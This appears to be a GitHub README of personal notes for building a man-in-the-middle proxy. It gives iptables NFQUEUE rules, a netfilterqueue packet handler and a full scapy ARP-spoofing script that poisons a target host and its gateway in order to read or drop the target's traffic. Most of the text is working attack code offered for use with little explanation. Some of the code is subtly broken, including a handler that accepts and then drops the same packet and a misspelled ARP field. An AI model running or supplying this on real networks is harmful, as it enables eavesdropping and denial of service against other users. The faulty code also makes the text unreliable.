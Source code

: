 # creating a Proxy
```
iptables -I FORWARD -j NFQUEUE --queue-num 0 
```
### iptables -> the program that allow us to trap all the packet in queue 

### FORWARD -> all the packet thae forward change queue

### NFQUEUE - > net filter queue

---
 ## you need to install the net filter queue
 ```
 root@kali:/opt/pycharm-community-2019.1.1/bin# pip install netfilterqueue
 ```
 ## or this 
```
sudo apt-get install python-netfilterqueue

```
 ---
 ---
 # to get the script work 
 ```
 #!/usr/bin/env python
import netfilterqueue

def process_packet(packet):
    print(packet) # it show us all the packet that the target used and entered in the internet..
    packet.accept() # to access
    packet.drop() # it allow us to cut the net internet connection of the target client

queue = netfilterqueue.NetfilterQueue() # created an instance of netFilterQue object
queue.bind(0, process_packet) # bind() : to connect or bind this queue to the queue that we created here
queue.run() # to run the queue that we created
 ```
 #### and this
 ```
 #!/usr/bin/env/ python

import scapy.all as scapy
import time
import sys

def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast/arp_request
    answered_List = scapy.srp(arp_request_broadcast, timeout = 1 , verbose=False)[0]

    return answered_List[0][1].hwsrc


def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    scapy.send(packet, verbose =False)

def restore(destination_ip, source_ip):
    destination_mac = get_mac(destination_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(opt=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
    scapy.send(packet, count=4,verbose=False)

target_ip = "10.0.2.15"
getway_ip = "10.0.2.1"


try:
    sent_packets_count = 0
    while True:
        spoof(target_ip, getway_ip)
        spoof(getway_ip, target_ip)
        sent_packets_count = sent_packets_count+2
        print("\r[+] Sent two packets " + str(sent_packets_count)),
        sys.stdout.flush()
        time.sleep(2)
except KeyboardInterrupt:
    print("[+] Detected CTRL + C ...... REsetting ARP tables ......Please wait.\n")
    restore(target_ip, getway_ip)
    restore(getway_ip, target_ip)
 ```
 ---
 # the result will cut the internet connection in the target and see all the packet that he/she used!!!
 ---
 ---
 ### if i want to see all packet in my computer with usin this command
 ```
 iptables -I OUTPUT -j NFQUEUE --queue-num 0 
 ```
### and then
```
iptables -I INPUT -j NFQUEUE --queue-num 0

```
---
---
---
# Converting Packet to Scapy Packet
```
#!/usr/bin/env python
import netfilterqueue
import scapy.all as scapy

def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    print(scapy_packet.show())
    print(packet) # it show us all the packet that the target used and entered in the internet..
    # print(packet.get_payload()) # it show me the actual contace it the packet itself
    packet.accept() # to access
    # packet.drop() # it allow us to cut the net internet connection of the target client

queue = netfilterqueue.NetfilterQueue() # created an instance of netFilterQue object
queue.bind(0, process_packet) # bind() : to connect or bind this queue to the queue that we created here
queue.run() # to run the queue that we created
```